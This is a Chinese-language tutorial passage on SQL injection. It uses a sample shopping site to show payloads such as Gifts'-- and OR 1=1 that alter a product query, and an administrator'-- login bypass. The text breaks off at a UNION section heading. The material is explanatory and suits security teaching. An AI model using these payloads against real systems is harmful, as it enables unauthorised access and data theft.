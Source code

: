 ## 详解

### 1.修改一个SQL查询返回额外的结果

有一个购物网站以不同的种类展示商品，当用户点击商品时，浏览器的URL是

```
https://insecure-website.com/products?category=Gifts
```

这个会调用后端一个SQL语句从数据库中查询信息。

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

这个SQL语句会向数据库中products表请求所有类别是Gifts类别和released列值为1的所有商品信息。

如果网站没有任何针对SQL注入攻击的防御措施，可以构建一个如下语句

```
https://insecure-website.com/products?category=Gifts'--
```

当前端传回至后端执行SQL语句时，

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

--在数据库中被用于注释后面所有内容，这有效的删除了后端构造SQL语句的其余部分，所以可以将released列的限制去除。

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

上面的URL被传入后端的SQL语句是

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

### 2.改变SQL查询语句干扰网站应用程序逻辑

用户登录界面时，用户通过用户名和密码登陆。以下是可能的SQL语句

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

在已知用户名的情况下，可以通过注释将密码查询注释掉。即

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

该行为可直接作为管理员用户登陆。

### ==3.UNION拼接检索不同数据库信息==

在网站应用程序返回SQL语句结果时，可以利用SQL注入从数据库中获取其他信息。

